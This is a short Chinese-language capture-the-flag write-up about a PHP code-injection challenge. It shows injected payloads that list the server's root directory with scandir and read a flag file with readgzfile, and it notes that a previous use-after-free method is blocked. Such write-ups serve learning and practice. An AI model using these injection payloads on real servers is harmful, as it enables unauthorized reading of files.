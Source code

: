 ![image-20241129234701193](../assets/image-20241129234701193.png)

可以看到一个flagc.txt文件

这题其实已经关闭了open_basedir，所以我们也可以用之前的方法读

```
var_export(scandir('/'));exit();
```

```
echo(implode(' ',scandir('/')));exit();
```

读文件的话上一题的uaf方法被ban了，这题用不了

所以我们还是用之前方法

```
c=readgzfile('/flagc.txt');exit();
```

![image-20241129235458680](../assets/image-20241129235458680.png)
